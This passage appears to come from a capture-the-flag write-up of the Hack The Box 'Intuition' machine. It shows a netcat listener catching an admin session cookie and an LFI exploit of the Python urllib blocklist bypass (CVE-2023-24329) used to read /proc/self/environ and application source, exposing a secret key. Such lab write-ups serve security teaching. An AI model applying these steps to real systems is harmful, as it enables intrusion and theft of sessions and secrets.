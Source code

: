 I got this on the listener
```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/intuition]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.11.15] 34318
GET / HTTP/1.1
Accept-Encoding: identity
Host: 10.10.16.31:4444
User-Agent: Python-urllib/3.11
Cookie: user_data=eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5
Connection: close
```

after trials we will notice the user agent which is `Python-urllib/3.11` which is interesting.
after searching i found that it's vulnerable and the cve details and poc are <a href="https://vsociety.medium.com/cve-2023-24329-bypassing-url-blackslisting-using-blank-in-python-urllib-library-ee438679351d">here</a>

It's very simple we put space before the url and this will result an LFI (we can include any local file) as example:
<img src="/assets/img/htb/intuition/capture4.png" alt="passwd">

After trials i didn't know how to reach effective file, but after searching i found `/proc/self/environ` which will give us how the program is invoked and the output was python3 /app/code/app.py`
so we knew the path of source code, let's read it using the LFI we have
<img src="/assets/img/htb/intuition/capture5.png" alt="app">
There's a secret key `7ASS7ADA8RF3FD7` and there's interesting imports that can tell us more paths about files we can reach
after examining them well we can conclude that the files are ordered in this way
```
/app
    /code
        app.py
        /blueprints
            /index
                __init__.py
                index.py
            /report
```